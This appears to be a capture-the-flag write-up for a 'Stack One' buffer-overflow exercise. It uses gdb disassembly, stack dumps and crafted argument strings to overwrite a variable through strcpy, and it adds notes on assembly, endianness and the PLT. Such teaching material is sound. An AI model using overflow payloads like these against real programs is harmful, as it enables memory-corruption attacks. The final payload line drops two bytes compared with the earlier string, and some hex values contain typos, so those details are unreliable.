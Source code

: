 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Stack One
This challenge is same as stack zero but with one modification. We need to overflow the buffer to write a specific value to `changeme` which is `0x496c5962`. `0x496c5962` is the ascii representation of "IlYb".
- Compile the source code and run gdb
```bash
gcc -g stack-one.c -o stack-one
gdb stack-one
```
- disassemble main
```bash
(gdb)disassemble main
Dump of assembler code for function main:
   0x00005555555551c9 <+0>:     endbr64 
   0x00005555555551cd <+4>:     push   rbp
   0x00005555555551ce <+5>:     mov    rbp,rsp
   0x00005555555551d1 <+8>:     sub    rsp,0x60
   0x00005555555551d5 <+12>:    mov    DWORD PTR [rbp-0x54],edi ; argc
   0x00005555555551d8 <+15>:    mov    QWORD PTR [rbp-0x60],rsi ;argv
   0x00005555555551dc <+19>:    mov    rax,QWORD PTR fs:0x28 
   0x00005555555551e5 <+28>:    mov    QWORD PTR [rbp-0x8],rax
   0x00005555555551e9 <+32>:    xor    eax,eax
   0x00005555555551eb <+34>:    lea    rax,[rip+0xe16] ; address of BANNER       # 0x555555556008
   0x00005555555551f2 <+41>:    mov    rdi,rax
   0x00005555555551f5 <+44>:    call   0x5555555550a0 <puts@plt> ; print welcome message
   0x00005555555551fa <+49>:    cmp    DWORD PTR [rbp-0x54],0x1 ; check if argc = 1
   0x00005555555551fe <+53>:    jg     0x555555555219 <main+80> ; jump if argc > 1
   0x0000555555555200 <+55>:    lea    rax,[rip+0xe49]  ; Load error message      # 0x555555556050
   0x0000555555555207 <+62>:    mov    rsi,rax ; copy error message to rsi
   0x000055555555520a <+65>:    mov    edi,0x1
   0x000055555555520f <+70>:    mov    eax,0x0
   0x0000555555555214 <+75>:    call   0x5555555550b0 <errx@plt> ; call error function and terminat the program
   0x0000555555555219 <+80>:    mov    DWORD PTR [rbp-0x10],0x0 ; changesme = 0
   0x0000555555555220 <+87>:    mov    rax,QWORD PTR [rbp-0x60] ; load argv to rax
   0x0000555555555224 <+91>:    add    rax,0x8
   0x0000555555555228 <+95>:    mov    rdx,QWORD PTR [rax] : move rax to rdx
   0x000055555555522b <+98>:    lea    rax,[rbp-0x50] ; load buffer to rax
   0x000055555555522f <+102>:   mov    rsi,rdx
   0x0000555555555232 <+105>:   mov    rdi,rax
   0x0000555555555235 <+108>:   call   0x555555555090 <strcpy@plt>
   0x000055555555523a <+113>:   mov    eax,DWORD PTR [rbp-0x10] ;load changeme to eax
   0x000055555555523d <+116>:   cmp    eax,0x496c5962 ; compare changeme with 0x496x5962
   0x0000555555555242 <+121>:   jne    0x555555555255 <main+140> ; jump if changme != 0x496x5962 
   0x0000555555555244 <+123>:   lea    rax,[rip+0xe3d]  ; load address of success string       # 0x555555556088
   0x000055555555524b <+130>:   mov    rdi,rax
   0x000055555555524e <+133>:   call   0x5555555550a0 <puts@plt> ; print success string
   0x0000555555555253 <+138>:   jmp    0x55555555526e <main+165> ; jump to end
   0x0000555555555255 <+140>:   mov    eax,DWORD PTR [rbp-0x10] ; mov value of changeme
   0x0000555555555258 <+143>:   mov    esi,eax
   0x000055555555525a <+145>:   lea    rax,[rip+0xe6f]    ; load address of unsuccess string    # 0x5555555560d0
   0x0000555555555261 <+152>:   mov    rdi,rax
   0x0000555555555264 <+155>:   mov    eax,0x0
   0x0000555555555269 <+160>:   call   0x5555555550c0 <printf@plt> 
   0x000055555555526e <+165>:   mov    edi,0x0
   0x0000555555555273 <+170>:   call   0x5555555550d0 <exit@plt>
```
- We need to overflow the buffer to overwrite changeme to `0x496x5962`.Set a break point after strcpy call.
```bash
(gdb)break *0x000055555555523a
(gdb)run AAAABBBBCCCCDDDDEEEE
```
- Examine the stack
```bash
(gdb) x/20wx ($rbp - 0x50)
0x7fffffffd750: 0x41414141      0x42424242      0x43434343      0x44444444
0x7fffffffd760: 0x45454545      0x00007f00      0x01000000      0x00000101
0x7fffffffd770: 0x00000002      0x00000000      0xbfebfbff      0x00000000
0x7fffffffd780: 0xffffdd09      0x00007fff      0x00000064      0x00000000
0x7fffffffd790: 0x00000000      0x00000000      0x652ab000      0x0a4e119f
```
- The string is copied to `buffer`. Now we need to overflow to `changeme` and write the string `IlYb` in it.
```bash
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPIlYb
(gdb) x/20wx ($rbp - 0x50)
0x7fffffffd720: 0x41414141      0x42424242      0x43434343      0x44444444
0x7fffffffd730: 0x45454545      0x46464646      0x47474747      0x48484848
0x7fffffffd740: 0x49494949      0x4a4a4a4a      0x4b4b4b4b      0x4c4c4c4c
0x7fffffffd750: 0x4d4d4d4d      0x4e4e4e4e      0x4f4f4f4f      0x50505050
0x7fffffffd760: 0x62596c49      0x00000000      0xeef20300      0x348bc308
```
- `changeme` data is in the address  0x7fffffffd760 to 0x7fffffffd763 but we see `IlYb` is reversed because of little endian byte ordering(Detailed explaination at the end) so we need to reverse the string to `bYlI` to pass the if statment.
```bash
(gdb)run AABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
```

## Explain Things I Encounter in The Level
### Size Perfixes Used With Memory Operands in Intel Assembly:
- `BYTE PTR`: indicates an 8-bit value
- `WORD PTR`: indicates a 16-bit value
- `DWORD PTR`: indicates a 32-bit value
- `QWORD PTR`: indicates a 64-bit value
- `XMMWORD PTR`: indicates a 128-bit value (used with the SSE2 instruction set).
<br/>
The size prefix is used to specify the size of the memory operand being accessed, and it must match the size of the destination register or the size of the data being moved.

### Meaning of [] in `mov` or `lea` instruction:
In Intel assembly language, the brackets around a register or memory operand indicate that the value is being used as an address. When an instruction uses a memory operand in this way, it indicates that the instruction is accessing the value stored at the memory location pointed to by the address.For example, the following c code.
```c
int x = 10;
// mov     DWORD PTR [rbp-16], 10 ; mov 10 to memory address rbp-12
int* ptr = &x;
//lea     rax, [rbp-16] ; load memory address to register rax
//mov     QWORD PTR [rbp-8], rax ; move the stored memory address in rax to memory address rbp-8
int c = *ptr;
//mov     rax, QWORD PTR [rbp-8] ; mov the address of x (ptr is pointing to)
//mov     eax, DWORD PTR [rax] ; store the value at address [rax] 
// [rax] is assem = x in c, rax in assem = &x in c 
//mov     DWORD PTR [rbp-12], eax ; store the value at eax - which is 10 - to memory address rbp - 12
```
### Little Endian vs Big Endian:
Little endian and big endian are terms used to describe the order in which bytes are stored in memory.Little endian refers to system in which the least significant byte (LSB) is stored at the lowest memory address, and the most significant byte (MSB) is stored at the highest memeory address. <br/>
For example, consider the following 32-bit integer value stored in memory:
```
0x12345678
78 is the LSB
12 is the MSB
```
In a little endian system, this value would be stored in memory as follows:
```
Address  Value
-------  -----
0x1000   0x78
0x1001   0x56
0x1002   0x34
0x1003   0x12
```
In a big endian system, this value would be stored in memory as follows:
```
Address  Value
-------  -----
0x1000   0x12
0x1001   0x34
0x1002   0x56
0x1003   0x78
```
The MSB stored at the lowest memory address, and the LSB stored at  highest memory address.<br/>
Little endian is used on some computer architectures, such as x86, as the default byte order for storing multi-byte values in memory. It is also used by some network protocols for storing multi-byte values in packets.
<br/>
It is importent to consider the endianness of a system when working with mutli-byte values, as the order in which the bytes are stored can affect the way the values are interpreted.For example, a value that is stored in memory as 0x12345678 on a little endian system may be interpreted as 0x78563412 on a big endian system.
### What is the `@plt` Suffix After Function Name in `call` instruction ?
The @plt suffix indicates that the function is being called through the Procedure Linkage Table (PLT).
<br/>
The Procedure Linkage Table (PLT) is a mechanism used in programs compiled for ELF (Executable and Linking Format) platforms, such as Linux, to provide a level of indirection when calling external functions.
<br/>
Here's a summary of how the PLT works:

1. When a program is compiled, the `linker` generates a PLT for each external function that is called in the program. The PLT consists of a series of entries, each of which corresponds to a specific external function.

2. When the program is loaded into memory, the PLT entries are initialized to point to a small piece of code called the "PLT stub."

3. When the program needs to call an external function, it will call the corresponding entry in the PLT instead of calling the function directly. This will transfer control to the PLT stub for the function.

4. The PLT stub will look up the actual address of the function and jump to it. This allows the program to execute without needing to know the addresses of the external functions it calls until they are actually needed.

